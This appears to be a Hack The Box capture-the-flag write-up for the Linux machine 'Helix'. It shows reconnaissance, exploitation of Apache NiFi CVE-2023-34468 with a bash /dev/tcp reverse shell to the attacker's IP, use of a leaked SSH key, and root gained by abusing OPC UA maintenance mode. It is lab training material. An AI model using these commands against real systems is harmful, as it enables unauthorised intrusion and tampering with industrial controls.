



# HTB: Helix (Medium)

> **Hack The Box Writeup**
>
> **Machine:** Helix  
> **Difficulty:** Medium  
> **Operating System:** Linux  
> **Date Solved:** 2026-06-06  

---

# Executive Summary

| Field | Value |
|---------|---------|
| Machine Name | Helix |
| OS | Linux |
| Difficulty | Medium |
| Initial Access | Apache NiFi RCE |
| Vulnerability | CVE-2023-34468 |
| Credential Access | SSH Private Key Disclosure |
| Privilege Escalation | OPC UA Maintenance Mode Abuse |
| Final Access | Root Shell |

---

# Attack Path

```text
Reconnaissance
    ↓
Virtual Host Enumeration
    ↓
flow.helix.htb
    ↓
Apache NiFi Discovery
    ↓
Version Identification (1.21.0)
    ↓
CVE-2023-34468 RCE
    ↓
Shell as nifi
    ↓
SSH Key Discovery
    ↓
SSH Access as operator
    ↓
OPC UA Enumeration
    ↓
Maintenance Mode Activation
    ↓
Helix Maintenance Console
    ↓
Root Shell
```

---

# 1. Enumeration & Reconnaissance

## Nmap Scan

```bash
sudo nmap -sC -sV -p- -T5 10.129.245.123
```

### Results

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

Add the target domain:

```bash
echo "10.129.245.123 helix.htb" | sudo tee -a /etc/hosts
```

---

# 2. Web Enumeration

Browse to:

```text
http://helix.htb
```

The website loads successfully.



---

## Virtual Host Enumeration

Perform virtual host fuzzing:

```bash
ffuf -u http://helix.htb \
-H "Host: FUZZ.helix.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-fs 178 | grep 200
```

Result:

```text
flow [Status: 200, Size: 1068, Words: 110, Lines: 28]
```

Add the discovered hostname:

```bash
echo "10.129.245.123 flow.helix.htb" | sudo tee -a /etc/hosts
```

Visit:

```text
http://flow.helix.htb
```





---

# 3. Apache NiFi Enumeration

The application is identified as:

```text
Apache NiFi Framework v1.21.0
```

Research reveals a known Remote Code Execution vulnerability affecting this version:

```text
CVE-2023-34468
```

---

# 4. Exploiting CVE-2023-34468

## Obtain Exploit

```bash
git clone https://github.com/Jeanpt/CVE-2023-34468.git
cd CVE-2023-34468
```

## Exploit Execution

```bash
python3 exploit.py \
-t http://flow.helix.htb/nifi \
-c "bash -i >& /dev/tcp/10.10.15.115/5555 0>&1" \
-lh 10.10.15.115 \
-lp 5555 \
--driver-path /opt/nifi-1.21.0/lib/h2-2.1.214.jar \
--no-cleanup
```

Start a listener:

```bash
nc -nvlp 5555
```

A reverse shell is received as the **nifi** user.

---

# 5. SSH Key Discovery

While enumerating the system, a backup SSH key is discovered:

```bash
cat /opt/nifi-1.21.0/support-bundles/operator_id_ed25519.bak
```

Copy the contents locally:

```bash
vi id_rsa
chmod 600 id_rsa
```

---

# 6. SSH Access

Login using the recovered private key:

```bash
ssh -i id_rsa operator@helix.htb
```

Retrieve the user flag:

```bash
cat user.txt
```

---

# 7. OPC UA Enumeration

The machine exposes an OPC UA service locally.

Modify the process state to maintenance mode.

## Set Operating Mode

```bash
uawrite -u opc.tcp://127.0.0.1:4840/helix/ \
-n "ns=2;i=12" \
-t string \
MAINTENANCE
```

## Enable Maintenance

```bash
uawrite -u opc.tcp://127.0.0.1:4840/helix/ \
-n "ns=2;i=13" \
-t bool \
True
```

## Adjust Parameter

```bash
uawrite -u opc.tcp://127.0.0.1:4840/helix/ \
-n "ns=2;i=6" \
-t double \
12.0
```

---

# 8. Privilege Escalation

After enabling maintenance mode, execute the maintenance console:

```bash
sudo /usr/local/sbin/helix-maint-console
```

This grants elevated access and leads to a root shell.

---

# 9. Root Shell

Retrieve the root flag:

```bash
cat /root/root.txt
```

---

# Key Findings

| Finding | Impact |
|-----------|-----------|
| Virtual host discovery | Attack surface expansion |
| Apache NiFi v1.21.0 | Vulnerable to CVE-2023-34468 |
| NiFi RCE | Initial shell access |
| Backup SSH key disclosure | Operator account compromise |
| OPC UA service accessible locally | Industrial control interaction |
| Maintenance mode abuse | Privilege escalation |
| Maintenance console execution | Root access |

---

# Lessons Learned

- Always enumerate virtual hosts during web assessments.
- Apache NiFi vulnerabilities can quickly lead to code execution.
- Backup files frequently contain sensitive credentials or keys.
- Industrial protocols such as OPC UA may expose critical functionality.
- Maintenance interfaces often contain privileged operations and should be tightly restricted.

---

# Flags

## User Flag

```bash
cat user.txt
```

## Root Flag

```bash
cat /root/root.txt
```

---

**Machine:** Helix  
**Difficulty:** Medium  
**Status:** Owned  
